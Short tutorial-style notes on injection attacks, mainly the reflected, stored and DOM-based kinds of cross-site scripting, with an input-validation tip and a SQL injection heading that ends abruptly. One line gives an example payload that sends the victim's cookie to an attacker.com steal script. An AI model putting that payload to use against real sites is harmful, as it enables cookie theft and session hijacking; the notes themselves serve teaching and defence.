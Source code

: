  injections occur when there is extra data in the input that is not expected
- XSS (cross site scripting)
- SQL injection
- Operating systems commands
### cross site scripting
#### reflected attack:
the attacker sends a url to the site that they want to steal the victim's cookie from
but the url has an appended script to it that send the cookie to the attackers server
```HTML
<img src="http://attacker.com/steal.php?cookie=" + document.cookie>
```
the url could display this image - a site that allows users to upload images may be vulnerable to this type of attack.

#### Stored attack:
similar to the reflected attack this could be embedded in a post like a blog, or anything that
users are allowed to make content for the web server

#### DOM attack:
sites that are vulnerable to dom based xss attacks may use variables from the url to perform some logic, like a custom greeting message or whatever it may be.

#### The fix and defences

scan the input for only valid input, anything else should be rejected DO NOT LOOK FOR THE BAD CHARACTER

### SQL Injection

